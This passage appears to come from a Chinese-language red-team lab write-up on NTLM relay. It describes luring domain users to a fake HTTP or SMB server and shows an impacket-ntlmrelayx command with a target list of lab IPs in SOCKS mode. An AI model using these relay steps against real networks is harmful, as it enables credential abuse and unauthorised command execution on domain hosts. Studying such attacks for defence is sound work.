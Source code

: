 诱导域管理员或普通域用户访问攻击机搭建的伪造 HTTP 或 SMB 服务，并输入用户名密码：

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/11.png)

攻击者的 ntlmrelayx 上面即可显示成功在目标上执行命令

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/12.png)

**socks**
```
echo "192.168.141.130" >> targets.txt
echo "192.168.141.131" >> targets.txt
echo "192.168.141.132" >> targets.txt
echo "192.168.141.133" >> targets.txt

impacket-ntlmrelayx -tf targets.txt -socks -smb2support
```
